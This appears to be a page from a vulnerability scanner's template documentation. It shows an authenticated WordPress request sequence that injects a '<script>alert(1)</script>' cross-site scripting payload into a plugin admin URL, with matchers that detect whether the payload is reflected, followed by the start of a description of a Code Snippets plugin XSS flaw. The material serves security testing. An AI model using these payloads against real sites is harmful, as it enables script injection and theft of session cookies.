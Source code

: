 ### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

### Step - 2

```
GET /wp-admin/admin.php?page=pmxe-admin-manage&a"><script>alert(1)</script> HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. manage&a\">\<script>alert(1)\</script>">
  2. Manage Exports
- condition - and

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress Code Snippets - Cross-Site Scripting

## Description

- WordPress Code Snippets plugin contains a cross-site scripting vulnerability. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - medium
- tags - wordpress,xss,wp-plugin,authenticated
